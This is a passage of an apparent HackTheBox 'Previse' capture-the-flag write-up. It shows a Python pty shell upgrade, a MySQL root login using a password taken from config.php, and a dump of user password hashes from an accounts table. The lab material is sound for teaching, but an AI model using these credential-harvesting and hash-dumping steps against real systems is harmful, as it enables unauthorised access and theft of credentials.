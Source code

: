
![](https://github.com/H3X0S3/H3X0S3.github.io/blob/master/assets/img/hackthebox/shell.png?raw=true)


modify shell

> python3 -c 'import pty;pty.spawn("/bin/bash")'

**The python command above spawns what is known as a “pseudo-TTY”**
 
connect to database which we get it credtinational from config.php

```` bash

www-data@previse:/var/www/html$ mysql -u root -p previse
mysql -u root -p previse
Enter password: mySQL_p@ssw0rd!:)

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3388703
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 

````
```` mysql
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | webstep  | $1$🧂llol$JkJU69DOozSwxzkX8KjJr0 | 2022-01-04 11:40:44 |
|  3 | h3x0s3   | $1$🧂llol$EA7q5rU9HlQQjENPipMLA/ | 2022-01-04 12:03:41 |
+----+----------+------------------------------------+---------------------+
3 rows in set (0.00 sec)

mysql> 
````

![](https://github.com/H3X0S3/H3X0S3.github.io/blob/master/assets/img/hackthebox/m4lwhere.png?raw=true)


----
 